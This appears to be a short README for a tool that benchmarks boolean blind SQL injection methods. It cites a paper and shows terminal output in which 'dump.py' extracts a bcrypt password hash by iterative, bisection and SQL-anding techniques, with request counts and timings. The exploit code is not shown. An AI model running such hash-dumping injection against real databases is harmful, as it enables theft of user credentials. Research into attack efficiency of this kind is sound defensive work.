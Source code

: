 # Faster (Boolean) Blind SQLi

- [https://aircconline.com/csit/papers/vol10/csit101909.pdf](https://aircconline.com/csit/papers/vol10/csit101909.pdf)

\<link to YT video>

<!-- python3 dump.py 5 | grep -Eo '[0-9].[0-9]{6}' | tr '\n' '\t' | xc -->

```bash
kali@kali$ python3 dump.py 12
[+] Oracle verified

--- ITERATIVE ---
[+] $2a$12$HEXnjRPQxxSLVrdUSf7d6.uHn2LZt4vyZ2CN66L/qI177ovoHea66

[*] Total number of requests: 4827
[*] Average requests per char: 80.450
[*] Time elapsed: 4.129857 seconds

--- BISECTION ---
[+] $2a$12$HEXnjRPQxxSLVrdUSf7d6.uHn2LZt4vyZ2CN66L/qI177ovoHea66

[*] Total number of requests: 420
[*] Average requests per char: 7.000
[*] Time elapsed: 0.071599 seconds

--- SQL-ANDING ---
[+] $2a$12$HEXnjRPQxxSLVrdUSf7d6.uHn2LZt4vyZ2CN66L/qI177ovoHea66

[*] Total number of requests: 420
[*] Average requests per char: 7.000
[*] Time elapsed: 0.069890 seconds
```